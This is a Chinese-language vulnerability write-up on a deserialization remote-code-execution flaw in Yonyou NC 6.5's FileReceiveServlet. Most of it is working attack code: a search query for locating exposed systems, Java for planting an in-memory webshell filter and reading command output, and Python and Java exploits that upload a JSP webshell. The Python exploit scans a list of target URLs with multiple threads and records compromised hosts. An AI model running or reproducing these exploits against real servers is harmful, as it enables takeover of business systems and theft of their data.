


用友 NC FileReceiveServlet 反序列化RCE漏洞¶
漏洞描述¶
用友NC 存在反序列化 RCE漏洞，攻击者可利用控制服务器
参考阅读：
漏洞影响¶
用友NC 6.5
网络测绘¶
app="用友-UFIDA-NC"
漏洞复现¶
首先从任意文件上传说起
任意文件上传分析代码在servlet.FileReceiveServlet。在这里我们可以看到，从请求中读取流，然后转换为map类型并读取上传文件的路径。然后再读取待上传的文件。

而网上很多poc，大多都是基于此漏洞，利用反序列化上传一个文件到服务器。
这也就是去年的那个任意文件上传的反序列化漏洞。但是，但是，这个漏洞本质是一个反序列化漏洞。而且某C的classpath中，也存在apache commonscollections库，我们可以利用这个库，直接执行命令或者内存马。岂不是比任意文件上传舒服多了。
内存马
老样子，在反序列化中想执行任意代码，一般都依靠xalan这个库。这次也不例外。
植入内存马，关键在于我们怎样找到context，只有找到context，我们才可以添加filter。好在某c中，我们只需要通过下面的代码既可以获取当前context，不需要从tomcat中获取context
Object obj = 改动Locator.getInstance().lookup("ServletContext");
Field contextField = obj.getClass().getDeclaredField("context");
contextField.setAccessible(true);
obj = contextField.get(obj);
Field contextField1 = obj.getClass().getDeclaredField("context");
contextField1.setAccessible(true);
addFitlertoTomcat(contextField1.get(obj));
剩下的就是常规操作，可以看我之前的内存马模型，基本不需要很大的改动即可完美适配。

回显
我们只需要找到这样一个servlet，即存在反序列化的readObject，又将错误信息写入到response中
不难看出 uploadServlet 就很满足这个需求。
out = new ObjectOutputStream(output);
in = new ObjectInputStream(request.getInputStream());
String dsName = (String)in.readObject();
}
} catch (Exception var14) {
var14.printStackTrace();
if (out == null) {
throw new ServletException(var14);
}
out.writeObject(var14);
如果出错的话，将错误信息通过序列化写入到response中。好处在于，我们不需要麻烦的去找tomcat的response对象。
所以，我们将反序列化的payload，发送给uploadServlet即可。然后我们只需要读取响应，即可拿到服务器命令执行的回显结果。客户端代码可以这样写
ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(r));
Exception e = (Exception) objectInputStream.readObject();
Object obj = e.getCause();
Field targetF = obj.getClass().getDeclaredField("target");
targetF.setAccessible(true);
obj = targetF.get(obj);
Field msgF = obj.getClass().getSuperclass().getDeclaredField("detailMessage");
msgF.setAccessible(true);
String msg = msgF.get(obj).toString();
System.out.println(msg);
文件上传EXP¶
python exp：
import requests
import threadpool
import urllib3
import sys
import argparse
urllib3.disable_warnings()
proxies = {'http': 'http://localhost:8080', 'https': 'http://localhost:8080'}
header = {
"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
"Content-Type": "application/x-www-form-urlencoded",
"Referer": "https://google.com",
}
def multithreading(funcname, filename="url.txt", pools=5):
works = []
with open(filename, "r") as f:
for i in f:
func_params = [i.rstrip("\n")]
works.append((func_params, None))
pool = threadpool.ThreadPool(pools)
reqs = threadpool.makeRequests(funcname, works)
[pool.putRequest(req) for req in reqs]
pool.wait()
def wirte_targets(vurl, filename):
with open(filename, "a+") as f:
f.write(vurl + "\n")
return vurl
def exp(u):
uploadHeader = {
"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
"Content-Type": "multipart/form-data;",
"Referer": "https://google.com"
}
uploadData = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x02\x74\x00\x09\x46\x49\x4c\x45\x5f\x4e\x41\x4d\x45\x74\x00\x09\x74\x30\x30\x6c\x73\x2e\x6a\x73\x70\x74\x00\x10\x54\x41\x52\x47\x45\x54\x5f\x46\x49\x4c\x45\x5f\x50\x41\x54\x48\x74\x00\x10\x2e\x2f\x77\x65\x62\x61\x70\x70\x73\x2f\x6e\x63\x5f\x77\x65\x62\x78"
shellFlag="t0test0ls"
uploadData+=shellFlag
try:
req1 = requests.post(u + "/servlet/FileReceiveServlet", headers=uploadHeader, verify=False, data=uploadData, timeout=25)
if req1.status_code == 200 :
req3=requests.get(u+"/t00ls.jsp",headers=header, verify=False, timeout=25)
if req3.text.index(shellFlag)>=0:
printFlag = "[Getshell]" + u+"/t00ls.jsp" + "\n"
print (printFlag)
wirte_targets(printFlag, "vuln.txt")
except :
pass
#print(printFlag, end="")
if __name__ == "__main__":
if (len(sys.argv)) < 2:
print('useage : python' +str(sys.argv[0]) + ' -h')
else:
parser =argparse.ArgumentParser()
parser.description ='YONYOU UC 6.5 FILE UPLOAD!'
parser.add_argument('-u',help="url -> example http://127.0.0.1",type=str,dest='check_url')
parser.add_argument('-r',help="url list to file",type=str,dest='check_file')
args =parser.parse_args()
if args.check_url:
exp(args.check_url)
if(args.check_file):
multithreading(exp, args.check_file, 8)
java exp：
import java.io.*;
import java.util.HashMap;
import java.util.Map;
public class App {
public static void main(String[] args) throws Exception {
String url="http://192.168.40.222";
Map<String, Object> metaInfo=new HashMap<String, Object>();
metaInfo.put("TARGET_FILE_PATH","webapps/nc_web");
metaInfo.put("FILE_NAME","cmd.jsp");
ByteArrayOutputStream baos=new ByteArrayOutputStream();
ObjectOutputStream oos=new ObjectOutputStream(baos);
oos.writeObject(metaInfo);
InputStream in=App.class.getResourceAsStream("cmd.jsp");
byte[] buf=new byte[1024];
int len=0;
while ((len=in.read(buf))!=-1){
baos.write(buf,0,len);
}
HttpClient.post(url+"/servlet/FileReceiveServlet",baos.toByteArray());
HttpResult result=HttpClient.get(url+"/cmd.jsp?cmd=echo+aaaaaa");
if(result.getData().contains("aaaaaa")){
System.out.println("shell路径:"+url+"/cmd.jsp?cmd=whoami");
}else{
System.out.println("上传shell失败或者漏洞不存在");
}
}
}